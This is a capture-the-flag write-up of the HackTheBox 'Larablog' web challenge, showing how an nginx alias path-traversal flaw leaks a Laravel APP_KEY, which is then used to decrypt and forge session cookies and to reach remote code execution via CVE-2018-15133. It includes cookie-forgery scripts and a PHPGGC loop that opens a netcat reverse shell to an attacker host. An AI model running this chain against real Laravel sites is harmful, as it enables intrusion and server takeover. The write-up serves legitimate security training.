


## HackTheBox Business CTF 2021 | Web | Larablog
##### Author: Sanduuz | Date: 31.07.2021

---

### Challenge details:
* Points: 350
* Solves: 43
* Difficulty: ★★★☆
* Description:

> I really like nginx, I also really like Laravel. This is why I published a blog post about my secure boilerplate nginx config on my Laravel deployments.

Larablog was the hardest web challenge from HackTheBox Business CTF 2021. In the context of web challenges the name Larablog in itself already hints towards the Laravel PHP framework. Let's start the challenge and see what it has to offer!

 Challenge | Info
:---------:|:---------:
 | 

> Note: The IP/port, APP_KEY and cookies vary in this writeup due to different sessions. It is not really relevant for the actual exploitation.

---

### Table of Contents
* [Writeup](#writeup)
	1. [Reconnaissance](#1-step-one---reconnaissance)
		1. [Discovering the LFI](#discovering-the-lfi)
		2. [Digging deeper](#digging-deeper)
		3. [Exploitation](#exploitation)
* [Summary and opinions]("#summary-and-opinions")

---

### Writeup:

**TL;DR**\
**Configuration mistake leaks APP_KEY that can be used to achieve RCE through insecure PHP deserialization.**

---

### 1. Step one - Reconnaissance

The challenge starts with a blog-like website.



> Here's the secure boilerplate nginx config I use for my Laravel deployments, like the one I deployed for this blog.

The website uses Laravel PHP framework on top of Nginx. The contents of used nginx configuration file are embedded below:

```nginx
user www;
pid /run/nginx.pid;
error_log /dev/stderr info;

events {
	worker_connections 1024;
}

http {
	server_tokens off;
	log_format docker '$remote_addr $remote_user $status "$request" "$http_referer" "$http_user_agent" ';
	access_log /dev/stdout docker;

	charset utf-8;
	keepalive_timeout 20s;
	sendfile on;
	tcp_nopush on;
	client_max_body_size 2M;

	include /etc/nginx/mime.types;

	server {
		listen 80;
		server_name _;

		index index.php;
		root /www/public;

		location /assets {
			alias /www/public/;
		}

		location / {
			try_files $uri $uri/ /index.php?$query_string;
			location ~ \.php$ {
				try_files $uri =404;
				fastcgi_pass unix:/run/php-fpm.sock;
				fastcgi_index index.php;
				fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
				include fastcgi_params;
			}
		}
	}
}
```

Let's break down the configuration file to see what it does. You can check the [Nginx beginner's guide](http://nginx.org/en/docs/beginners_guide.html) for more information about the configuration.

First some simple directives in the main context are set: 
```nginx
user www; # Nginx is running as www user.
pid /run/nginx.pid; # PID of process will be saved in /run/nginx.pid.
error_log /dev/stderr info; # Info level logging is saved into /dev/stderr.
```

Then inside the `events` context the `worker_connections` is set to 1024. This means that the worker process can open 1024 simultaneous connections.

```nginx
events {
	worker_connections 1024;
}
```

After that the http context begins:
```nginx
server_tokens off; # Disables emitting nginx version on error pages and in the “Server” response header field.
log_format docker '$remote_addr $remote_user $status "$request" "$http_referer" "$http_user_agent" '; # Override default logging formatting.
access_log /dev/stdout docker; # Change location and format of logging file.

charset utf-8; # Adds the “Content-Type: text/html; charset=utf-8” response header field.
keepalive_timeout 20s; # Sets a timeout during which a keep-alive client connection will stay open on the server side.
sendfile on; # Enables the use of sendfile().
tcp_nopush on; # Enables the use of the TCP_NOPUSH socket option on FreeBSD or the TCP_CORK socket option on Linux.
client_max_body_size 2M; # Sets the maximum allowed size of the client request body to 2M. If the size in a request exceeds the configured value, the 413 (Payload Too Large) error is returned to the client.

include /etc/nginx/mime.types; # Include different mime types.
```

The meat on top of the bones resides inside the server context, under the http context:
```nginx
server {
	listen 80; # Nginx listens on port 80.
	server_name _; # Server name is set to "_".

	index index.php; # Defines index.php to be used as an index.
	root /www/public; # Sets the root directory for requests to be /www/public.

	location /assets { # If request URI ends with "/assets"
		alias /www/public/; # Set /www/public/ as an alias for /assets.
	}

	location / { # If request URI ends with "/"
		try_files $uri $uri/ /index.php?$query_string; # Check existence of files in the specified order and use the first found file for request processing.
		location ~ \.php$ { # From this point on the configuration is default and can be ignored.
			try_files $uri =404;
			fastcgi_pass unix:/run/php-fpm.sock;
			fastcgi_index index.php;
			fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
			include fastcgi_params;
		}
	}
}
```

<br />

#### Discovering the LFI

The interesting part is the location alias for `/assets`. Traversing to the `/assets/` path makes the webserver display the Laravel `index.php` file from `/www/public/` to us.



This surely is interesting. The server is including the file and displaying the source code of it even though PHP files should be rendered. It seems like there is some kind of local file inclusion (LFI) attack possibility here.

Reviewing the location alias from the nginx configuration more closely reveals one difference when compared to the official documentation standards. The location alias is for `/assets` instead of `/assets/` with a slash in the end.

This is a common "off-by-slash" misconfiguration and it opens a door for path traversal.

Using the common path traversal attempt `/assets/../` yields no results, but traversing to `/assets../` will trick Nginx into exposing the parent directory.


The possible LFI can now be verified by trying to include a known file from the parent directory. Browsing the [Laravel GitHub repository](https://github.com/laravel/laravel) shows files that are included in a default Laravel installation.

Let's try to retrieve for example the `composer.json` file.


It works! The current PHP (7.1.3) and Laravel (5.5.40) versions are disclosed through the file, which also might help later on.

<br />

#### Digging deeper

Next let's start up burpsuite and inspect the requests going to the server.

Making a simple HTTP GET request to the webroot returns the following response:
```
HTTP/1.1 200 OK
Server: nginx
Content-Type: text/html; charset=UTF-8
Connection: close
X-Powered-By: PHP/7.4.21
Cache-Control: no-cache, private
Date: Thu, 29 Jul 2021 11:27:09 GMT
Set-Cookie: blog_session=eyJpdiI6Il...; expires=Thu, 29-Jul-2021 13:27:09 GMT; Max-Age=7200; path=/; httponly
Set-Cookie: s3NyQRBqrQwzB72KCnBn5bPKfbTi8t2q1s1kg0oV=eyJpdiI6...; expires=Thu, 29-Jul-2021 13:27:09 GMT; Max-Age=7200; path=/; httponly
Content-Length: 2514
```

Analyzing the response shows that 2 cookies are set. Let's take a look at the `blog_session` cookie first.

`blog_session: eyJpdiI6IlVmRHZNckE4VTl4Ukc0bGZXUzdGcEE9PSIsInZhbHVlIjoiRzdFemFLRXZxK2pUMGw2NkM3N3MyOXRcLzVxc3R1OUNSNjJXajNaeFFDeFB1K0pJdWRLQlEwSFRRWVJYQ0ZDR2lCMnkweTR1ZDhlTzNRN1wvQjhEeXpKUT09IiwibWFjIjoiMDNlZDkxMWFlNGFmOTIxYTg1ODk5ZWM0ZGI3MWYxMTY0NmQ2NTc3YmExNTFjMjY0N2RiOWJhZTlhZjc0YTZlYyJ9`

The cookie looks like base64 encoded data, so let's try to decode it.


The cookie decodes to the following JSON data:
```json
{"iv":"UfDvMrA8U9xRG4lfWS7FpA==","value":"G7EzaKEvq+jT0l66C77s29t\/5qstu9CR62Wj3ZxQCxPu+JIudKBQ0HTQYRXCFCGiB2y0y4ud8eO3Q7\/B8DyzJQ==","mac":"03ed911ae4af921a85899ec4db71f11646d6577ba151c2647db9bae9af74a6ec"}
```

The JSON has fields `iv` and `mac`, which hints towards the fact that the cookie might be encrypted using some blockcipher that requires an initialization vector (iv).

Searching for "Laravel cookie encryption" leads us to the [Laravel documentation on encryption](https://laravel.com/docs/5.5/encryption) which tells us the following fact:
> Laravel's encrypter uses OpenSSL to provide AES-256 and AES-128 encryption.

AES indeed requires an IV to work, so this seems promising so far. Only the decryption key is missing.

Digging deeper into laravel documentation reveals that the cookies are encrypted with an `APP_KEY`. The `APP_KEY` is said to be in a `.env` file. Now this is where the LFI attack comes in handy once again.

Let's try to include the `.env` file in the hopes of it leaking the `APP_KEY`.


The file exists and the `APP_KEY` is leaked as well! (`AXNWH2Zx5mZknQGvOIhdPt08uh4CjK4xWkVJLNFKmf8=`)

Now let's use that key to decrypt the session cookie to see what it includes. With some googling I was able to find a python snippet to decrypt Laravel encrypted values. With some slight modifications the script can be used to decrypt our cookie:

```python3
import os, base64, json
from Crypto.Cipher import AES
from phpserialize import loads


def decrypt(payload):
    data = json.loads(base64.b64decode(payload))

    value =  base64.b64decode(data['value'])
    iv = base64.b64decode(data['iv'])

    return unserialize(mcrypt_decrypt(value, iv))


def mcrypt_decrypt(value, iv):
    key = base64.b64decode("<APP_KEY>")

    crypt_object = AES.new(key=key, mode=AES.MODE_CBC, IV=iv)
    return crypt_object.decrypt(value)


def unserialize(serialized):
    return loads(serialized)


print(decrypt("<BLOG_SESSION-COOKIE>"))
```

Now let's run the script:


> Note: You might need to install phpserialize with for example: `sudo apt install python3-phpserialize`

The decrypted value seems to be the name of the other mysterious cookie. Now let's take a look at that cookie instead. Just change the cookie from the previous script and re-run it:


This mysterious cookie contains JSON with some PHP serialized data. Let's deserialize it again to make it more readable.

The data can be deserialized once again with some slight modifications to the previous script:

```python3
decrypted = decrypt("<MYSTERIOUS-COOKIE>")
serialized = json.loads(decrypted)["data"].encode("utf-8")

print(unserialize(serialized))
```

Re-running the script now results in this:


This mysterious cookie seems to contain information about the user and the session.

Let's try to change the username field to "admin", re-serialize the JSON, and send a forged cookie to the website. To do this the mac needs to be re-calculated so let's use a new script for that.

```php
#!/usr/bin/env php
<?php

$key = base64_decode("<APP_KEY>");
$value = '{"data":"a:6:{s:6:\\"_token\\";s:40:\\"NW5QgjqxwZXo0Hm2XxtUlinBz69aOW79bLMkX3Ya\\";s:8:\\"username\\";s:5:\\"admin\\";s:5:\\"order\\";s:2:\\"id\\";s:9:\\"direction\\";s:4:\\"desc\\";s:6:\\"_flash\\";a:2:{s:3:\\"old\\";a:0:{}s:3:\\"new\\";a:0:{}}s:9:\\"_previous\\";a:1:{s:3:\\"url\\";s:26:\\"http:\\/\\/46.101.23.188:31323\\";}}","expires":1627565229}';

$cipher = 'AES-256-CBC';

$iv = random_bytes(openssl_cipher_iv_length($cipher));

$value = openssl_encrypt(base64_decode($value), $cipher, base64_decode($key), 0, $iv);

$iv = base64_encode($iv);
$mac = hash_hmac('sha256', $iv.$value, base64_decode($key));

$json = json_encode(compact('iv', 'value', 'mac'));

$encodedPayload = base64_encode($json);
echo $encodedPayload . PHP_EOL;
```

Running the script returns the forged cookie:


Let's replace the mysterious cookie with this forged cookie and refresh the page.

Nothing happened...

Well since the data is serialized, there is a chance that the deserialization is done insecurely. If so, there might be a possibility to achieve remote command execution through it.

<br />

#### Exploitation

Searching exploits for Laravel 5.5.40 returns a single match:


The exploit [CVE-2018-15133](https://nvd.nist.gov/vuln/detail/CVE-2018-15133) is RCE through insecure deserialization.

In the original CVE the data is passed through the HTTP X-XSRF-TOKEN header, but in this scenario the Cookie HTTP header should be used instead.

A PoC script for it can be found on [GitHub](https://github.com/kozmic/laravel-poc-CVE-2018-15133/blob/master/cve-2018-15133.php).


The script requires the APP_KEY and a payload. Fortunately the payloads can be crafted with tools such as [PHPGGC](https://github.com/ambionics/phpggc).

Let's create a small automation script that passes all the different payloads generated by PHPGGC to the CVE-2018-15133 PoC script.

```bash
#!/bin/bash

for i in $(seq 1 7); do
phpggc Laravel/RCE$i system 'nc <ATTACKER IP> <ATTACKER PORT> -e /bin/sh' -b > payload.txt

./cve-2018-15133.php <APPKEY> $(cat payload.txt) | grep ^X-XSRF-TOKEN |cut -d' ' -f2- > token.txt

curl -X GET -H "Cookie: blog_session=$(cat token.txt)" http://46.101.23.188:30975/
```

Let's start a listener on our attacker machine with `nc -lvp <PORT>`.

Let's run the script and see if a connection back is initiated.


And indeed a connection is established! Now let's identify our user.


The user is `www`, just like the configuration file showed. Let's see the directory listing for filesystem root.


There seems to be a flag file with the name `flag_goyYV`.


There it is, the challenge has now been solved!

---

### Summary and opinions

The challenge had many steps to it, which made it really great in my opinion.

It was also very realistic since simple and small configuration mistakes happen and, as the challenge shows, when combined with outdated systems it can lead to devastating results.